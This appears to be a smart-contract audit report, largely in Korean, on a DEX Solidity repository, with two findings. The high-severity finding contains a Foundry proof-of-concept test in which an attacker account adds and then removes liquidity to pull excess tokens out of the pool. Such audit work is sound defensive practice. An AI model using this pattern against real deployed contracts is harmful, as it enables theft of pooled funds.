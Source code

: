 # cml2ZXJjYXN0bGVvbmU=

## Scope

<table>
  <tr>
    <th>Name</th>
    <td>Dex Security Audit</td>
  </tr>
  <tr>
    <th>Target / Version</th>
    <td>Git Repository (<a href="https://bit.ly/4gbW5eJ" target="_blank">DEX_solidity</a>): commit <mark>edf6e78c4b63258f408a29ef74f29b5ae6c88501</mark> (<mark>master</mark> branch)</td>
  </tr>
  <tr>
    <th>Application Type</th>
    <td>Smart contracts</td>
  </tr>
  <tr>
    <th>Lang. / Platforms</th>
    <td>Smart contracts [Solidity]</td>
  </tr>
</table>

## Findings

### #1 `001` The overall calculation of metrics for the CPMM DEX is incorrect

|ID|Summary|Severity|
|:---:|-------|:---:|
|001|*CPMM DEX* 로서의 전반적인 Calculation 오류|High|

#### Description

일반적인 *DEX*를 구현 할 때, *Stable Coin*의 경우 *CSMM*, 기타 일반 토큰의 경우 *CPMM* 방식으로 구현하게 되는데, 이를 위한 *Calculation* 과정이 잘못 구현되어 풀 내 자산 탈취가 가능함. 가령, `addLiquidity()` 함수 내에서, *Pool* 내 유동성이 존재하지 않을 때는, 두 자산의 각각의 초기 예치자산 수량 곱의 제곱근으로 LP 토큰의 유동성이 계산되고, 이후 추가적인 유동성이 공급될 때는 별도의 계산으로 처리되는 데, 이 때의 계산이 적절하지 않음. 이에, 아래와 같이 공격자가 유동성 예치 후에 즉시 예치 해제시, 자신이 예치한 유동성보다 기하급수적으로 많은 토큰을 돌려 받음.

```solidity
function testAddLiquidityAndThenRemoveLiquidity() external {
    uint256 lpReturn = dex.addLiquidity(1000 ether, 2000 ether, 0);
    emit log_named_uint("lpReturn", lpReturn); // lpReturn: 1414213562373095048801

    // Assume that Address 1 belongs to the attacker.
    vm.prank(address(1));
    uint256 lpReturnByAddressOne = dex.addLiquidity(99 ether, 200 ether, 0);
    emit log_named_uint("lpReturnByAddressOne", lpReturnByAddressOne); // lpReturnByAddressOne: 140007142674936409831

    vm.prank(address(1));
    (uint256 xReceived, uint256 yReceived) = dex.removeLiquidity(140007142674936409831, 0, 0);
    emit log_named_uint("xRecieved", xReceived); // xRecieved: 98999999999999999999
    emit log_named_uint("yReceived", yReceived); // yReceived: 198180163785259326660
}
```

#### Impact

**High**

공격자가 *Pool* 내 자산을 탈취할 수 있음.

#### Recommendation

*CPMM DEX* 구현 간에 `K`(*Constant Value*) 값의 도입 등, 전반적인 *Pool* 내 자산 비율 *Calculation* 정교화 및 고도화 요망.

### #2 `002` The *LP token* is managed solely by a `uint256` type variable

|ID|Summary|Severity|
|:---:|-------|:---:|
|002|*LP Token*의 관리가 별도의 토큰 스탠다드를 따르는 형태가 아닌, `uint256` 타입의 `totalLiquidity` 변수로 이루어짐.|Informational|

#### Description

해당 컨트랙트는 *LP Token*의 공급을 별도의 *ERC-20* 토큰의 상속 및 활용을 통한 형태로 구현한 것이 아닌, 단지 `uint256` 타입의 `totalLiquidity` 변수를 통해 관리하고 있음. 특히, `addLiquidity()` 및 `removeLiquidity()` 함수에서는, 유동성 공급이 이루어 졌을 때, 단순히 더하기 및 빼기 연산으로 *LP Token*의 전체 유통량을 증감시키는데, 만약 *Pool*의 전체 유동성이 `type(uint256).max` 값에 도달하면 어떠한 에러 핸들링 없이 유동성 공급이 불가함.

#### Impact

**Informational**

예기치 못한 유동성 공급 불가로 인한 부작용.

#### Recommendation

별도의 *ERC-20* (*Uniswap V2*의 경우) 및 *ERC-721*(*Uniswap V3*의 경우) 등의 형태로 *LP Token* 구현 요망.